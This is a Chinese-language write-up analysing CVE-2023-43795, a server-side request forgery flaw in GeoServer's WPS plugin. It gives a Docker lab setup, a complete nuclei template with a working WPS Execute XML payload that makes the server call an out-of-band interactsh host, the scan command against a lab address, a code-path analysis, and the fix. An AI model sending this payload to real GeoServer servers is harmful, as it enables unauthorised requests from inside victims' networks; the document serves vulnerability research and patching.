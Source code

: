 

# CVE-2023-43795 GeoServer ssrf 漏洞分析 - 先知社区

CVE-2023-43795 GeoServer ssrf 漏洞分析



# 0x00 概述

GeoServer 是一个用 Java 编写的开源软件服务器，它可以让用户共享和编辑地理空间数据，GeoServer 遵循 OpenGIS Web 服务器规范，使用开放标准发布来自任何主要空间数据源的数据。经过分析，该软件存在 ssrf 漏洞，攻击者可以从服务端实现任意请求伪造。

| 字段  | 值   | 备注  |
| --- | --- | --- |
| 漏洞编号 | CVE-2023-43795 |     |
| 漏洞厂商 | GeoServer |     |
| 厂商官网 | [https://geoserver.org/](https://geoserver.org/) |     |
| 影响对象类型 | Web 应用 |     |
| 影响产品 | GeoServer |     |
| 影响版本 | version<2.22.5,version < 2.23.2 |     |
|     |     |

# 0x01 漏洞影响

[https://github.com/geoserver/geoserver/security/advisories/GHSA-5pr3-m5hm-9956](https://github.com/geoserver/geoserver/security/advisories/GHSA-5pr3-m5hm-9956)

*   version<2.22.5,version < 2.23.2
    
*   需要安装 wps 插件
    

# 0x02 漏洞环境

基于 [https://github.com/vulhub/vulhub/tree/master/geoserver/CVE-2023-25157](https://github.com/vulhub/vulhub/tree/master/geoserver/CVE-2023-25157) 进行搭建，只是要安装 wps 插件

这里版本为 2.22.1

安装对应版本的 wps 插件，下载：[https://sourceforge.net/projects/geoserver/files/GeoServer/2.22.1/extensions/geoserver-2.22.1-wps-plugin.zip/download，下载完之后解压](https://sourceforge.net/projects/geoserver/files/GeoServer/2.22.1/extensions/geoserver-2.22.1-wps-plugin.zip/download%EF%BC%8C%E4%B8%8B%E8%BD%BD%E5%AE%8C%E4%B9%8B%E5%90%8E%E8%A7%A3%E5%8E%8B)

修改 docker compose：

```bash
version: '3'
services:
 web:
   image: vulhub/geoserver:2.22.1
   depends_on:
    - postgres
   ports:
    - "8080:8080"
    - "5005:5005"
   volumes:
     - ./startup.sh:/startup.sh
     - ./startup2.sh:/mnt/geoserver/bin/startup.sh
     - ./gs-web-wps-2.22.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gs-web-wps-2.22.1.jar
     - ./gs-wps-core-2.22.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gs-wps-core-2.22.1.jar
     - ./gs-wps-kml-ppio-2.22.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gs-wps-kml-ppio-2.22.1.jar
     - ./gt-csv-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gt-csv-28.1.jar
     - ./gt-process-geometry-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gt-process-geometry-28.1.jar
     - ./gt-xsd-kml-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gt-xsd-kml-28.1.jar
     - ./gt-xsd-wps-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/gt-xsd-wps-28.1.jar
     - ./net.opengis.wps-28.1.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/net.opengis.wps-28.1.jar
     - ./opencsv-5.0.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/opencsv-5.0.jar
     - ./serializer-2.7.2.jar:/mnt/geoserver/webapps/geoserver/WEB-INF/lib/serializer-2.7.2.jar
   command: bash /startup.sh
 postgres:
   image: postgis/postgis:14-3.3-alpine
   environment: 
    - POSTGRES_PASSWORD=vulhub
    - POSTGRES_DB=geoserver
```

如果要调试的话，修改一下容器中的 `/mnt/geoserver/bin/startup.sh` 文件：

[![](assets/1701606526-d4046ba73acb5fcff31c7c301dec59a8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001330-3dc411d4-8a1b-1.png)

```bash
-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005
```

# 0x03 漏洞验证和利用

运行 nuclei：

```bash
id: CVE-2023-43795

info:
  name: GeoServer WPS - Server Side Request Forgery
  author: DhiyaneshDK
  severity: critical
  description: |
    GeoServer is an open source software server written in Java that allows users to share and edit geospatial data. The OGC Web Processing Service (WPS) specification is designed to process information from any server using GET and POST requests. This presents the opportunity for Server Side Request Forgery. This vulnerability has been patched in version 2.22.5 and 2.23.2.
variables:
  string: "{{to_lower(rand_text_alpha(4))}}"
  value: "{{to_lower(rand_text_alpha(5))}}"

http:
  - raw:
      - |
        POST {{path}} HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/xml

        <?xml version="1.0" encoding="UTF-8"?>
        <wps:Execute version="1.0.0" service="WPS"
          xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
          xmlns="http://www.opengis.net/wps/1.0.0"
          xmlns:wfs="http://www.opengis.net/wfs"
          xmlns:wps="http://www.opengis.net/wps/1.0.0"
          xmlns:ows="http://www.opengis.net/ows/1.1"
          xmlns:gml="http://www.opengis.net/gml"
          xmlns:ogc="http://www.opengis.net/ogc"
          xmlns:wcs="http://www.opengis.net/wcs/1.1.1"
          xmlns:xlink="http://www.w3.org/1999/xlink"
                xsi:schemaLocation="http://www.opengis.net/wps/1.0.0 http://schemas.opengis.net/wps/1.0.0/wpsAll.xsd">
          <ows:Identifier>JTS:area</ows:Identifier>
          <wps:DataInputs>
            <wps:Input>
              <ows:Identifier>geom</ows:Identifier>
              <wps:Reference mimeType="application/json" xlink:href="http://{{interactsh-url}}" method="GET">
                <wps:Header key="{{string}}" value="{{value}}"/>
              </wps:Reference>
            </wps:Input>
          </wps:DataInputs>
          <wps:ResponseForm>
            <wps:RawDataOutput>
              <ows:Identifier>result</ows:Identifier>
            </wps:RawDataOutput>
          </wps:ResponseForm>
        </wps:Execute>

    payloads:
      path:
        - /wms
        - /geoserver/wms

    stop-at-first-match: true
    matchers:
      - type: dsl
        dsl:
          - contains(interactsh_protocol, 'http')
          - contains_all(to_lower(interactsh_request), '{{string}}','{{value}}')
          - status_code == 200
        condition: and
```

```bash
nuclei.exe -t CVE-2023-43795.yaml -u http://192.168.88.132:8080/
```

[![](assets/1701606526-7e65a5154e1067863eaceb53f3c91e88.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001342-45562a0e-8a1b-1.png)

# 0x04 漏洞分析

访问 `/geoserver/wms` ，在`org.geoserver.ows.Dispatcher` 的 `service()` 中，会调用 `this.findService()` 确定要调用的 service：

[![](assets/1701606526-185e53745e09469184f7bb4c1f2df48a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001412-56da9076-8a1b-1.png)

调用 `this.execute()` ：

[![](assets/1701606526-2498afa16d3506a1e69b5bb5150d4c81.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001421-5cb628c0-8a1b-1.png)

来到 `org.geoserver.wps.DefaultWebProcessingService` 的 `execute()` ：

[![](assets/1701606526-e674b5110b821d87a753c5cf95806b66.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001430-61ddfb20-8a1b-1.png)

跟进由一个 `executionManager` 负责处理 request：

[![](assets/1701606526-b5a386de3bd62dbd4ea9e16a20448cd3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001438-66bf4b26-8a1b-1.png)

最终调用一个 `WPSExecutionManager$Executor` 对象的 `call()` ：

[![](assets/1701606526-1ece104e45a58e23a9f3b87e37b7c43a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001446-6b5e0e74-8a1b-1.png)

最终触发 `org.apache.http.impl.client.CloseableHttpClient.execute()` 实现 ssrf：

[![](assets/1701606526-ebb24a81a0bcbfd67f6c1d62f33e2c58.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001453-6f813512-8a1b-1.png)

[![](assets/1701606526-94401f052c43739adbe98004ae9a365d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124001459-733248c2-8a1b-1.png)

# 0x05 漏洞修复

更新版本到 >=2.22.5，或更新版本>= 2.23.2
